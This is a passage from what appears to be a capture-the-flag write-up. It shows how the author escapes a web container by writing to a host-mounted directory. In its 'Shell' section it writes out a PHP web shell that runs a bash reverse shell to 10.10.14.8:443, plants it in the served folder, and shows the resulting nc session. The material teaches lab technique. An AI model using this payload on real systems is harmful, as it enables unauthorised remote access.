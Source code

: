 


A directory called `/files` is the only thing owned by root. In it, is
`lcars.zip`:



    www-data@a7018bfdc454:/var/www.md/files$ ls
    lcars.zip



That was on the HTTPS website above, so it's interesting it's here.

`mount` shows that it's actually a folder from the host being mapped
into the container:



    www-data@a7018bfdc454:/var/www.md/files$ mount -l | grep files
    /dev/mapper/enterprise--vg-root on /var/www.md/files type ext4 (rw,relatime,errors=remount-ro,data=ordered)



If I write to it, that shows up on the HTTP site:



    www-data@a7018bfdc454:/var/www.md$ echo "is this the same site" > files/0xdf>



From my VM:



    oxdf@parrot$ curl -s -k https://10.10.10.61/files/0xdf.txt
    is this the same site



### Shell

I'll write a reverse shell into a PHP file:



    www-data@a7018bfdc454:/var/www.md$ echo -e "<?php\nsystem(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'\");\n?>"                  
    <?php
    system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'");
    ?>
    www-data@a7018bfdc454:/var/www.md$ echo -e "<?php\nsystem(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'\");\n?>" > files/0xdf.php 



Now on visiting `https://10.10.10.61/files/0xdf.php`, I get a shell at
`nc`:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.61] 54496
    bash: cannot set terminal process group (1507): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@enterprise:/var/www.md/files$ 
